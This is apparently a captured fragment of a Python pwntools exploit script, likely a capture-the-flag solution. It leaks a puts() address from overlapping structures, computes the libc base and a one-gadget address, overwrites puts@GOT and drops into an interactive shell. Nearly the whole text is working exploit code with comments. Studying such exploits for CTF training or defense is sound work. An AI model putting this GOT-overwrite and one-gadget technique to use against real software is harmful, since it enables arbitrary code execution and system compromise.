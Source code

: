 ```Python
	# ------------------------------------------------------------------------
	
	# -------------------- Libc Leak --------------------------
	# 	  We leak a `puts()` address, and then 
	#     we calculate the libc base and the address of
	#     the one gadget.
	# ---------------------------------------------------------

	username, money = show_details(1152)   # The name string of #1153 overlaps with the struct of #1152!
	libc_leak = u64(username.ljust(8,'\x00'))
	log.info("puts @ 0x%x\n" % libc_leak)
	
	libc_base = libc_leak - libc.symbols['puts']
	log.info("libc base @ 0x%x\n" % libc_base)

	one_gadget = libc_base + 0x45216
	log.info("one gadget @ 0x%x\n" % one_gadget)

	# -------------------- GOT overwrite ----------------------------
	# 	~ We overwrite puts@GOT with a one gadget address,
	#     because the constraint `rax == NULL` is met.
	# ---------------------------------------------------------------
	edit_details(1152, p64(one_gadget), 1) # Changes the `#1152->name` to be the one_gadget, but because THE WHOLE STRUCT overlapped with `#1153->name`, its actually changing puts@GOT!
	r.interactive()
```


